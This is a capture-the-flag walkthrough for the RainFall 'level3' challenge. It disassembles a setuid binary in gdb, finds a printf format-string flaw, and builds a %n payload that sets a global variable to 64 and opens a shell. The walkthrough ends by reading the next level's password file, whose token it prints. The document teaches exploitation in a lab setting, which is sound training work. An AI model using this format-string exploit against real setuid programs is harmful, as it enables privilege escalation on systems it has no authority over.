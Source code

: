 # level3 walkthrough
Given setuid binary, lets disassemble it:

    (gdb) disass main
    Dump of assembler code for function main:
    0x0804851a <+0>:	push   ebp
    0x0804851b <+1>:	mov    ebp,esp
    0x0804851d <+3>:	and    esp,0xfffffff0
    0x08048520 <+6>:	call   0x80484a4 <v>
    0x08048525 <+11>:	leave
    0x08048526 <+12>:	ret
    End of assembler dump.

Main function just calls "v" function:

    (gdb) disass v
    Dump of assembler code for function v:
    0x080484a4 <+0>:	push   ebp
    0x080484a5 <+1>:	mov    ebp,esp
    0x080484a7 <+3>:	sub    esp,0x218
    0x080484ad <+9>:	mov    eax,ds:0x8049860
    0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484be <+26>:	lea    eax,[ebp-0x208]
    0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
    0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484cc <+40>:	lea    eax,[ebp-0x208]
    0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
    0x080484d5 <+49>:	call   0x8048390 <printf@plt>
    0x080484da <+54>:	mov    eax,ds:0x804988c
    0x080484df <+59>:	cmp    eax,0x40
    0x080484e2 <+62>:	jne    0x8048518 <v+116>
    0x080484e4 <+64>:	mov    eax,ds:0x8049880
    0x080484e9 <+69>:	mov    edx,eax
    0x080484eb <+71>:	mov    eax,0x8048600
    0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
    0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
    0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
    0x08048504 <+96>:	mov    DWORD PTR [esp],eax
    0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
    0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
    0x08048513 <+111>:	call   0x80483c0 <system@plt>
    0x08048518 <+116>:	leave
    0x08048519 <+117>:	ret
    End of assembler dump.

This function calls safe function fgets with buffer size contol, we can't abuse that.
Normally this program would just print buffer and exit, because of the cmp instruction.
This cmp instruction checks if global variable at address 0x804988c equals 0x40 (64 decimal) value.
Lets try to examine this variable:

    (gdb) x/x 0x804988c
    0x804988c <m>:	0x00000000
    (gdb) info sym 0x804988c
    m in section .bss

This is uninitialized global variable "m", that's why it is placed in bss section and initialized with zero.
If we manage to change value of this variable we would get to another part of the program with system function call which launches shell.
If we look closer at disassembly we would spot that printf is being called with buffer provided as format string which is unsafe.
Lets try to pass printf format options to find out how we can abuse this:

    level3@RainFall:~$ ./level3
    AAAA %p %p %p %p
    AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

Because no arguments provided to the printf function call %p parameter would print get values from stack.
We can see that there are three pointers, if we get rid of them by just printing them out then next address on top of the stack would be the beginning of our buffer.
So if we provide instead of "AAAA" address of "m" global variable then we can overwrite it with %n parameter:

    level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%p%p%p%n")' > /tmp/level3/exploit
    level3@RainFall:~$ ./level3 < /tmp/level3/exploit
    �0x2000xb7fd1ac00xb7ff37d0

"%n" parameter overwrites provided address with number of bytes printed out.
To write in "m" global variable 64 value we need to find out how many bytes printf currently prints and add prefix with missing amount of random bytes:

    (gdb) b *v+59
    Breakpoint 1 at 0x80484df
    (gdb) run < /tmp/level3/exploit
    Starting program: /home/user/level3/level3 < /tmp/level3/exploit
    �0x2000xb7fd1ac00xb7ff37d0

    Breakpoint 1, 0x080484df in v ()
    (gdb) i r eax
    eax            0x1d	29

Our global variable currently holds 29 value, so wee need to prefix 35 bytes:

    level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "a"*35 + "%p%p%p%n")' > /tmp/level3/exploit
    level3@RainFall:~$ cat /tmp/level3/exploit - | ./level3
    �aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x2000xb7fd1ac00xb7ff37d0
    Wait what?!
    whoami
    level4
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

Here is our token for the next level!